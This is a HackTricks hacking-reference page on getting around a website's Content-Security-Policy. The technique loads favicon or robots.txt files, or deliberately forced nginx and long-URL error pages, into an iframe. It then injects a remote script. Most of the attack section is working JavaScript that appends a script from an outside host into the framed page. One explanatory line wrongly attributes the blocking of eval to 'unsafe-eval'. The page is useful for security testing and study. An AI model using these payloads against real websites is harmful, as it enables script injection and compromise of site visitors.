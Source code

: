 

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


A configuration such as:

```
Content-Security-Policy: default-src ‘self’ ‘unsafe-inline’;
```

Prohibits usage of any functions that execute code transmitted as a string. For example: `eval, setTimeout, setInterval` will all be blocked because of the setting `unsafe-eval`

Any content from external sources is also blocked, including images, CSS, WebSockets, and, especially, JS

## Via text & images

Modern browsers transform images and texts into HTML files to visualize them better (set background, center, etc).

Therefore, if you **open an image or txt file** such as **favicon.ico** or **robots.txt** with an **`iframe`**, you will open it as HTML.

**These kinds of pages usually don't have CSP headers and might not have X-Frame-Options**, so you can execute arbitrary JS from them:

```javascript
frame=document.createElement("iframe");
frame.src="/css/bootstrap.min.css";
document.body.appendChild(frame);
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

## Via Errors

Same as text files or images, **error responses usually don't have CSP headers and might not have X-Frame-Options**. So, you can force errors and load them inside an iframe:

```javascript
// Force nginx error
frame=document.createElement("iframe");
frame.src="/%2e%2e%2f";
document.body.appendChild(frame);

// Force error via long URL
frame=document.createElement("iframe");
frame.src="/"+"A".repeat(20000);
document.body.appendChild(frame);

// Force error via long cookies
for(var i=0;i<5;i++){document.cookie=i+"="+"a".repeat(4000)};
frame=document.createElement("iframe");
frame.src="/";
document.body.appendChild(frame);
// Don't forget to remove them
for(var i=0;i<5;i++){document.cookie=i+"="}
```

```javascript
// After any of the previous examples, you can execute JS in the iframe with something like:
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

## References

* [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)


<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>


